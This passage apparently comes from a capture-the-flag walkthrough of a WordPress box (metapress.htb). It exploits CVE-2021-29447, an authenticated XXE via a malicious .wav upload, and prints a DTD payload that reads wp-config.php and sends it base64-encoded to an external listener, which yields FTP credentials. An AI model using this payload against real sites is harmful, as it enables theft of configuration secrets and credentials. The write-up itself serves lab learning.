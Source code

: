There were 2 hashes, and one of them could be cracked.&#x20;

<figure><img src="../../../.gitbook/assets/image (97) (5).png" alt=""><figcaption></figcaption></figure>

Now that we have credentials, we can run the authenticated XXE injection.

{% embed url="https://github.com/motikan2010/CVE-2021-29447" %}

How this exploit works is by using the credentails to make the Wordpress site requests for a `.dtd` file. This is done by uploading a malicious `.wav` file via New Media, making the site request and execute the `.dtd` file. This would allow us to get LFI on the machine.

Following the PoC from the repo above, I was able to replicate it.&#x20;

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

Using this `.dtd` file, we can grab the `wp-config.php` file:

```markup
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://host.docker.internal:8001/?p=%file;'>" >
```

Within that file, we can find FTP credentials:

<figure><img src="../../../.gitbook/assets/image (126) (5).png" alt=""><figcaption></figcaption></figure>
